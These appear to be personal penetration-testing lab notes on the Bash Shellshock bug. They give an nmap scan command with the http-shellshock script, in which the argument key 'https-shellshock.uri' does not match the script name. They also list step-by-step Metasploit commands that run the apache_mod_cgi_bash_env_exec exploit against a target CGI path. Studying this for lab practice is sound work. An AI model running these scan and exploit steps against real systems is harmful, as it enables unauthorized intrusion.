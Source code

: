 #### Bash Vulnerability : Shellshock
![](https://miro.medium.com/v2/resize:fit:720/format:webp/0*RaGT5xB77Sf_lZLs.jpg)
* [Shellshock Code & the Bash Bug - Computerphile (youtube.com)](https://www.youtube.com/watch?v=MyldPMn95kk&ab_channel=Computerphile)
* Scan for the target:  Nmap Scan
```bash
nmap -sV <ip> --script=http-shellshock --script-args "https-shellshock.uri=/gettime.cgi"
```
* Exploit the vulnerability through Burp Suite payloads
![[Screenshot 2024-07-15 at 12.39.30 PM.png]]
* Msfconsole
```bash
 msfconsole -q
 search shellshock
 use exploit/multi/http/apache_mod_cgi_bash_env_exec
 set RHOSTS <ip>
 set TARGET <uri path contain cgi filename>
 exploit
 
```
* Source Code find the /gettime.cgi
* ![[Screenshot 2024-07-15 at 12.59.51 PM.png]]